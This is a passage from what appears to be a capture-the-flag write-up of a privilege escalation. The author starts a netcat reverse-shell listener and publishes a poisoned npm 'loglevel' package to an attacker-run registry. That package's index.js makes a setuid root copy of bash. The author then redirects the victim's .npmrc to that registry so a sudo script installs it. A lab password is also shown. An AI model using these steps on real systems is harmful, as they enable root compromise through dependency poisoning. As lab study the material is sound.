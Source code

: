 Now we can set up our local listener to catch the reverse shell:

```bash
nc -lnvp 9001
```

Now start the [startup.sh](http://startup.sh) script:

```bash
sudo /opt/app/startup.sh #IhateMathematics123#
```

Received a shell but it’s not working. Let’s just create a setuid shell binary.

Our new index.js:

```bash
require("child_process").exec("chown root:root /tmp/shell; chmod 4755 /tmp/shell")

```

Now let’s publish it again:

```bash
npm version patch
npm publish --registry http://10.10.16.12:4873 
```

Now on the target, let’s copy a bash binary to /tmp:

```bash
which bash

/bin/bash

cp /bin/bash /tmp/shell
```

Now let’s make sure the environmental variable is not overwritten and execute the sudo again:

```bash
echo 'registry=http://10.10.16.12:4873/' > ~/.npmrc
sudo /opt/app/startup.sh
```

We see it downloading our version of loglevel, then checking /tmp/shell, we have our SUID set binary.

![image.png]({{ site.baseurl }}/assets/seventeen//image%2025.png)